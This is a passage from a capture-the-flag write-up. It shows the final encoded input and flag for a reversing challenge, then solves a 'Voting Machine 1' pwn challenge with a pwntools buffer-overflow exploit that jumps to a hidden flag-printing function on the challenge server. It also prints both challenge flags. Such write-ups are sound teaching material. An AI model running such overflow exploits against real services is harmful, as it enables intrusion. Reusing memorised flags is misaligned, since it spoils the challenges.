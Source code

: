 Now, what remains is to get the enoced values corresponding to "give_me_the_flag_please". The most thing dut to which I was stuck for some time was to add the encoding for the NULL character at the end as well (here it was 0). So final input is - 38 118 79 95 127 109 95 127 129 91 95 127 20 114 15 38 127 73 114 95 15 124 95 0.

The flag is - **watevr{oops_1_f0rg0t_to_use_r4ndom_k3ys!_youtube.com/watch?v=BaACrT6Ydik}**

&nbsp;  

___

# Pwn Challenges

## Voting Machine 1

File: [kamikaze](/assets/img/posts_images/watevr_ctf/files/kamikaze)

This is a buffer overflow challenge as gets has been used. There is a function `super_secret_function`. We basically have to jump there as it prints the flag. Pretty straightforward.

{% include image.liquid url="/assets/img/posts_images/watevr_ctf/vm_1.png" %}

The offset of the crash is calculated using gef's pattern create and pattern search functionality.

My exploit code - 

```python
from pwn import *
# context.log_level = 'debug'
p = process("./kamikaze")
e = ELF('./kamikaze')
p = remote("13.48.67.196", 50000)

offset = 10

p.recvuntil(': ')

func = 0x0000000000400807

payload = "A"*offset
payload += p64(func)

p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

The flag is - **watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}**

&nbsp;  
